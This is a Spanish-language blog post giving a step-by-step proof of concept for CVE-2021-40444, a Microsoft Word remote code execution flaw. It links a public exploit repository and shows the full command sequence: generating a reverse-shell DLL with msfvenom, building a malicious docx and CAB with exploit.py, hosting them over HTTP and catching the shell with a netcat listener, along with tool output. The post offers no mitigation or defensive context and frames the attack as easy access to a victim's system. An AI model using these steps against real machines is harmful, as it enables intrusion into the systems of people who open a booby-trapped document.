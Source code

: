 ```yaml
---
layout: single
title: POC CVE-2021-40444
excerpt: "Buenas hoy os traigo un POC del reciente exploit CVE-2021-40444, como vamos a ver podemos ejecutar comandos en sistema windows remoto a traves de la creacion de un archivo Word malicioso"
date: 2021-09-18
classes: wide
header:
  teaser: /assets/images/POC-CVE-2021-40444/logo.jpg
  teaser_home_page: true
  icon: 
categories:
  - POC CVE
  - infosec
tags:
  -   CVE
  -   Video
---
```


# POC CVE-2021-40444

Hoy voy a enseñaros paso a paso como realizar este ataque, es una vulnerabilidad que ha salido hace muy poco, y básicamente lo que vamos a explotar es un fallo en Word Office, abriendo un documento malicioso vamos a ganar acceso al sistema fácilmente, actualmente el Windows Defender lo detecta, pero seguro que os gusta.

Para ello vamos a necesitar un sistema operativo de atacante (en mi caso Kali Linux) y un sistema operativo que queremos vulnerar (Windows 10), tendréis que instalar el Word Office para que funcione.

## 1º Paso

Nos descargaremos el contenido de este repositorio: [link](https://github.com/lockedbyte/CVE-2021-40444) 

```bash
root@kali /home/kali/Desktop/POC/CVE-2021-40444 master
❯ ls
 data   out   test             exploit.py     POC.mp4     REPRODUCE.md
 img    srv   deobfuscate.py   patch_cab.py   README.md
```

## 2º Paso

Vamos a borrar el archivo creado en test → calc.dll

Este repositorio lo que explota es ejecutar un comando en el sistema, en este caso abre una calculadora en el sistema a vulnerar, pero nosotros queremos ganar acceso.

Así que vamos a construirnos nuestra propia reverse shell con `msfvenom`

```bash
root@kali /home/kali/Desktop/POC/CVE-2021-40444/test master*
❯ msfvenom -p windows/shell_reverse_tcp lhost=192.168.234.130 lport=443 -f dll > calc.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 8704 bytes
```

Le damos permisos Full 

```bash
root@kali /home/kali/Desktop/POC/CVE-2021-40444/test master*
❯ chmod 777 calc.dll
                                                                                            

root@kali /home/kali/Desktop/POC/CVE-2021-40444/test master*
❯ ls -la
drwxr-xr-x root root 4.0 KB Sat Sep 18 11:20:29 2021  .
drwxr-xr-x root root 4.0 KB Sat Sep 18 11:18:21 2021  ..
.rwxrwxrwx root root 8.5 KB Sat Sep 18 11:20:34 2021  calc.dll
```

Ejecutamos el exploit de esta forma:

```bash
❯ python3 exploit.py generate test/calc.dll http://192.168.234.130
[%] CVE-2021-40444 - MS Office Word RCE Exploit [%]
[*] Option is generate a malicious payload...

[ == Options == ]
        [ DLL Payload: test/calc.dll
        [ HTML Exploit URL: http://192.168.234.130

[*] Writing HTML Server URL...
[*] Generating malicious docx file...
  adding: [Content_Types].xml (deflated 75%)
  adding: _rels/ (stored 0%)
  adding: _rels/.rels (deflated 61%)
  adding: docProps/ (stored 0%)
  adding: docProps/app.xml (deflated 48%)
  adding: docProps/core.xml (deflated 50%)
  adding: word/ (stored 0%)
  adding: word/webSettings.xml (deflated 57%)
  adding: word/settings.xml (deflated 63%)
  adding: word/_rels/ (stored 0%)
  adding: word/_rels/document.xml.rels (deflated 75%)
  adding: word/fontTable.xml (deflated 74%)
  adding: word/styles.xml (deflated 89%)
  adding: word/document.xml (deflated 85%)
  adding: word/theme/ (stored 0%)
  adding: word/theme/theme1.xml (deflated 79%)
[*] Generating malicious CAB file...
[*] Updating information on HTML exploit...
[+] Malicious Word Document payload generated at: out/document.docx
[+] Malicious CAB file generated at: srv/word.cab
[i] You can execute now the server and then send document.docx to target
```

Ya tenemos creado nuestro documento word con nuestro codigo malicioso

## 4º Paso

Ejecutamos el exploit de nuevo de esta forma para compartirnos un servicio web con python:

```bash
❯ python3 exploit.py host 80                                   
[%] CVE-2021-40444 - MS Office Word RCE Exploit [%]
[*] Option is host HTML Exploit...
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Y tambien nos ponemos en escucha:

`rlwrap nc -nlvp 443`

```bash
root@kali /home/kali/Desktop/POC
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
```

## 5º Paso

Pasamos el documento word que se ha creado en /out

```bash
root@kali /home/kali/Desktop/POC/CVE-2021-40444/out master*
❯ ls
 0-blank   document.docx
```


<iframe width="350" height="220" src="https://www.youtube-nocookie.com/embed/x39Lc2l97Ao" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>


Abrimos el documento Word y BOOM! :)

<iframe width="350" height="220" src="https://www.youtube-nocookie.com/embed/F--Fva4UyLc" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

